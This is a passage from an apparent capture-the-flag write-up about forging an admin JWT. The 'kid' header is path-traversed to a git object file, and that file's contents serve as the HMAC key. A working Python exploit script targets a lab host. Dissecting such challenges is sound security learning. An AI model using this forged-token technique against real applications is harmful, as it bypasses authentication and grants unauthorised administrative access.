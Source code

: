 I know that I can craft JWT with <i>"kid"</i> header parameter like: "aaaabbbbaaaabbbbaaaabbbbaaaabbbb", and that would bypass <code>preg_match()</code>, but not <code>file_exists()</code> since obviously the file with that name doesn't exist. All what I had to do is to traverse to a file that existed on the server that I knew of. After some thinking and <b><i>numerous</i></b> failed attempts, an idea came to my mind.<br>
Remembering that I dumped .git directory with all local changes of repository, I had access to git objects that are stored as files (also known as  <a href="https://git-scm.com/book/en/v2/Git-Internals-Git-Objects">Blobs</a>). Their names are SHA-1 hashes in hex form, which is ideally what I needed for that regex pattern.<br>
<img src="https://github.com/0xhebi/BND-Recruitment-2021-CTF-Web-Security/blob/main/Secret%20Vexillology%20Society/screenshots/git_objects.png"/>
<br>
<img src="https://github.com/0xhebi/BND-Recruitment-2021-CTF-Web-Security/blob/main/Secret%20Vexillology%20Society/screenshots/git_blob.png"/>

I made a script in Python to test it: 

```python

import requests
import json
import jwt

s = requests.Session()
s.keep_alive = False
h = {"Accept":"*/*","Accept-Encoding":"gzip, deflate","User-Agent":"Mozilla/5.0"}
url2 = "https://5f0df7f0-9d18-4797-bb6a-3ac7af2e7590.idocker.vuln.land/admin.php"
obj = ".git/objects/b0/e27f6adff54c677d31825edcd75bb6d0e8763e"

with open("e27f6adff54c677d31825edcd75bb6d0e8763e","rb") as f:
   content = f.read()

def log(url):
   token = jwt.encode({"sub":"admin", "name":"Admin", "admin":True}, key=content, algorithm="HS384", headers={"kid":f"../{obj}"})
   cookies = {"session":token}
   r = s.get(url,cookies=cookies)
   if r.status_code == 200:
     print("Logged in as admin!", token)

log(url2)

```
